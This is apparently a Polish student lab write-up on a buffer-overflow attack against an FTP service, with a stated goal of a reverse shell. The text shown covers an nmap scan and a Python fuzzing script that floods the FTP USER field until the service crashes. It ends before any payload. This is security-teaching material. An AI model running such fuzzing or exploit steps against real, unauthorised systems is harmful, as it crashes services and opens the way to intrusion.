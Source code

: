 # Laboratorium 2 BOT 
### Buffer overflow

## Autorzy: 
* Wawrzyńczak Michał
* Gryka Paweł
-----------------------

**Cel: Napisać eksploit  wykorzystujący podatność przepełnienia bufora. Po wykonaniu ekploita musi zostać nawiązane połączenie typu reverse shell.**

# Jak wykonać atak buffer overflow krok po kroku


## Identyfikacja usługi

Na początku należy zidentyfikować a następnie przeskanować atakowanego hosta, by zidentyfikować działające na nim usługi. Można to zrobić na przykład za pomocą polecenia ```namp -sV <adres ip>```
![](https://i.imgur.com/tZld0VQ.png)

W naszym przypadku wiedzieliśmy że podatną usługą jest ```ftp``` ale bez takiej wiedzy należałoby sprawdzić jakie aplikacje działają na znalezionych, otwartych portach i zdecydować, która może być podatna.

## 1. Przeprowadzenie fuzzingu w celu odkrycia ile wysyłanych bajtów danych powoduje przepełnienie bufora i zatrzymanie usługi.
- Przygotowywujemy skrypt fuzzujący
```
#!/usr/bin/python2
import socket,sys
# Create an array of buffers
buffer=["A"]
counter=1
while len(buffer) <= 30:
	buffer.append("A"*counter)
	counter=counter+15

for string in buffer:
	print "Fuzzing PASS with %s bytes" % len(string)
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect(('192.168.241.133',21))
	s.recv(1024)
	s.send('USER ' + string + '\r\n')
	s.send('QUIT\r\n')
	s.close()
```
- Uruchamiamy skrypt fuzzujący
![](https://i.imgur.com/k9COxYU.png)
